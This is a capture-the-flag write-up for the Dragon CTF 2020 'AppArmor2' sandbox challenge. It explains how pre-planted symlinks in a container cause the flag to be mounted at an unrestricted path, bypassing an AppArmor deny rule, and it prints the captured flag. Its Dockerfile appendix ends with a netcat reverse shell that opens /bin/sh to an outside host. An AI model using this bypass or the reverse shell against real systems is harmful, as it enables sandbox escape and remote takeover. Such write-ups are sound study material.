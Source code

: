 # AppArmor2 - Dragon CTF 2020 (Sandbox, 421p, 7 solved)

## Introduction
AppArmor2 is a sandbox task.

A remote server executes user-provided Docker containers with a specific
AppArmor ruleset which prevents from reading `/flag*`:
```
# The line below (+ profile name, + install comments at bottom) is only difference from the original file
deny /flag* rwklx,
```

The rule prevents (`deny`) the file from being read (`r`), written (`w`), locked
(`k`), linked (`l`) or executed (`x`).

The flag is mounted as `/flag-XXXX` with X being random hexadecimal digits. It
cannot be read because of the AppArmor rule.

## Vulnerability
If the target of a mount operation already exists and is a symbolic link, the
flag will be mounted as the target of this link.

It is possible to create a container that contains a link for possible flag to
redirect it to `/pwned`.

The flag will be mounted as `/pwned`. Since this file is not restricted by the
AppArmor rule, the flag will be readable with a simple `cat /pwned` command.

Creating an image and pushing it to the Gitlab repository is out of the scope of
this write-up.

**Flag**: `DrgnS{4e77cd33ffb0c7802b39303f7452fd90}`

## Appendices
### Dockerfile
```Dockerfile
FROM busybox
RUN printf 'ln -s /pwned /flag-%04x\n' $(seq 65535) | sh
CMD ["nc", "xer.fr", "12345", "-e", "/bin/sh"]
```
